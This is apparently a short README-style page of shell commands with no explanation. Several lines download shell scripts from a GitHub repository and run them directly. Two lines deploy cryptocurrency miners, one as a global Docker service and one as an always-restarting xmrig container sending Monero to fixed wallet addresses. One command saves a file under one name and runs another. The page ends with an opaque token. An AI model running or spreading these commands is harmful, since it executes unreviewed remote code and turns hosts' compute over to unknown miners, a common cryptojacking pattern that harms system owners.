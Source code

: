 # wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/home.sh && chmod +x home.sh && ./home.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/sug.sh && chmod +x sug.sh && ./sug.sh

# docker service create --mode=global --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a yespower -o stratum+tcps://stratum-asia.rplant.xyz:17079 -u VVPBKDtfy9hJRuFEhZ8Lj1yR5TaNAcVobb.cloud1

# docker run --restart=always miningcontainers/xmrig:latest --tls -o xmr-us-east1.nanopool.org:14433 -u 83ErkzmC8yH2omjYvg6G7vc4fiP33k9EsXrGjs4ssW7hetWN3VHKgtVDsGTpjipJmDMWnsgpfb32NYw186uYE2UyEcDv343 --coin monero

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/tid.sh && chmod +x tid.sh && ./tid.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/der.sh && chmod +x der.sh && ./der.sh

# wget -O run.sh https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/ron.sh && chmod +x ron.sh && ./ron.sh

# 2KtRkhcqvGb9pHLTIlm35oPjzf2_4bLwDzDfPeEEuMaVGBtmW
